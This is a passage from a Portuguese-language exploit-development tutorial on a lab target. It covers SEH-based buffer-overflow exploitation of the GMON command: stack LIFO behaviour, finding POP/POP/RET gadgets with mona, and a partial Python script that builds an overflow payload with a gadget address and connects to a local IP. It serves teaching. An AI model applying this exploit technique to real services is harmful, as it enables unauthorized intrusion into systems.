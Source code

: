 Precisamos encontrar uma forma de retirar estes 8 bytes da stack antes do JMP ESP para podermos cair exatamente em nosso buffer.

## ESTRUTURA LIFO

A stack da arquitetura x86 segue o padrão LIFO (Last In First Out) onde o ultimo item a entrar na stack é o primeiro a sair. Cada vez que fazemos um PUSH na memória, nós adicionamos exatamente 4 bytes à stack decrementando o apontador, ou seja, em cada PUSH em ESP o apontador ESP recebe um valor -4, em contrapartida, quando fazemos um POP na stack, adicionamos 4 bytes no apontador.

Como nosso buffer está 8 bytes acima de onde caímos, precisamos adicionar 8 bytes à stack, conseguimos isso encontrando um endereço que contenha um POP/POP/RET.

```
POP <qualquer registrador 32 bytes>
POP <qualquer registrador 32 bytes>
RET
```

Onde, o primeiro POP vai retirar o primeiro endereço da stack, adicionando 4 bytes ao endereço, e o segundo POP vai adicionar mais 4. O RET vai pegar o primeiro endereço da stack e adicioná-lo ao EIP, e assim executamos exatamente nosso buffer.

Podemos encontrar o endereço POP/POP/RET com o proprio Immunity utilizando o plugin mona com o comando `!mona seh -cp nonull -cm safeseh=off`.

![Enumaração do comando.](/img/std/winbof/winbof-55.png)

Onde `-cp nonull` omite endereços com caracteres nulos, “-cm safeseh=off” omite endereços compilados com SafeSEH.

Encontramos 12 endereços de POP/POP/RET utilizáveis, no meu caso utilizarei o 6250120b.

Vamos atualizar nosso script, e inserir o endereço encontrado no lugar de nossos “C”, lembrando que os bytes tem que ir na ordem inversa pois utilizam little indiam.

xplgmon.py:

```python
#!/usr/bin/python3

import socket

ip = "192.168.1.30"
porta = 9999

offset = 10007

payload = b"GMON ./"
payload += b"A" * 3549
payload += b"B" * 4
payload += b"\x0b\x12\x50\x62"
payload += b"D" * (offset - 3549 - 4 - 4)

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip,porta))
s.recv(1024)

print("Enviando payload...")
```